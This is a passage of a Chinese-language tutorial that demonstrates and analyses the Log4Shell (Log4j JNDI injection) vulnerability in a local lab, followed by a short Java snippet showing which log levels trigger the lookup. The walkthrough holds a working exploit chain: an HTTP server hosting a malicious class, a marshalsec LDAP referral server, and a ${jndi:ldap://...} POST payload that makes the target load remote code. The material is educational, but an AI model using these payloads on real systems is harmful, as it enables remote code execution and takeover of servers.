 然后对外开放此文件。

```shell
python -m http.server 4444
Serving HTTP on :: port 4444 (http://[::]:4444/) ...
```

并使用 marshalsec（https://github.com/mbechler/marshalsec）开启一个恶意的LDAP服务器。

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "<http://192.168.1.100:4444/#RCE>"
Listening on 0.0.0.0:1389
```

最后利用如下 Payload 实施 JNDI 注入攻击，最终会弹出一个计算器。

```shell
POST /login TTP/1.1
Host: 127.0.0.1:44228
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

data=${jndi:ldap://192.168.1.100:1389/RCE}
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/cb30b872-5149-4f49-b3f2-3af40383dda7/0.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=1a207def35d2d7ad190f2a3dc6beca47cf24aff91cb877c43e0aa9557e676866&X-Amz-SignedHeaders=host&x-id=GetObject)

## 漏洞分析

将如上漏洞环境简化至如下几行代码，如下便是漏洞触发的关键代码片段。

```java
package com.javasec.log4j;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4Shell {

    private static final Logger LOGGER = LogManager.getLogger(Log4Shell.class);

    public static void main(String[] args) {

        String log = "${sys:user.name}";

        // 默认配置下成功利用
        //LOGGER.fatal(log);
        LOGGER.error(log);

        // 默认配置下利用无效
        //LOGGER.info(log);
        //LOGGER.warn(log);
        //LOGGER.debug(log);
        //LOGGER.trace(log);
    }
}
```
